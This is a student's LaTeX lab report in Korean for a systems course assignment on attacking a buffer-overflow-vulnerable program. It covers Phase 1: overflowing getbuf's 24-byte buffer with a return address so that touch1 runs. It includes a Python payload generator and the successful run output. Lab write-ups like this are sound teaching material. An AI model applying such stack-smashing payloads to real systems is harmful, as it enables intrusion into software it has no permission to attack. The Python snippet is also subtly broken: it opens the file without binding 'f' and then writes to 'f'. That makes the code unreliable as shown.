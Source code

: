 \documentclass{scrartcl}
\title{CSED211: Lab 4 (due Nov. 6)}
\author{손량(20220323)}
\date{Last compiled on: \today, \currenttime}
\begin{document}
\maketitle

\section{개요}
Buffer overflow 취약점이 있는 프로그램을 code injection, return oriented
programming 등의 방법으로 공격해 본다.

\section{공격 방법}
\subsection{Phase 1}
Phase 1을 해결하기 위해서는 \texttt{getbuf} 함수의 buffer overflow 취약점을
활용하여 \texttt{touch1} 함수를 실행해야 한다. \texttt{getbuf} 함수는 스택에
\texttt{0x18}, 즉 24바이트를 할당하기 때문에 24바이트의 문자열 뒤에
\texttt{touch1} 함수의 주소인 \texttt{0x40184d}를 byte order에 맞게 붙여주면
공격을 위한 input string을 생성할 수 있다. 이를 위해서 다음과 같은 파이썬
코드를 사용하여 \texttt{phase1\_payload.bin} 파일을 생성하였다.
\begin{lstlisting}[language=Python]
import struct

with open("phase1_payload.bin", "wb"):
    f.write(b"A" * 0x18)
    f.write(struct.pack("<q", 0x40184d))
\end{lstlisting}
여기서 \texttt{struct} 모듈은 little endian byte order에 맞게 주소값을 입력하기
위해 사용하였다. 코드의 \texttt{"<q"}는 8바이트 값을 little endian에 맞게
packing 하라는 의미이다. 생성된 \texttt{phase1\_payload.bin} 파일을 입력으로
주어 실행시키면 공격이 성공함을 알 수 있다.
\begin{lstlisting}
$ ./ctarget < phase1_payload.bin
Cookie: 0x3e52dff5
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
\end{lstlisting}
\end{document}
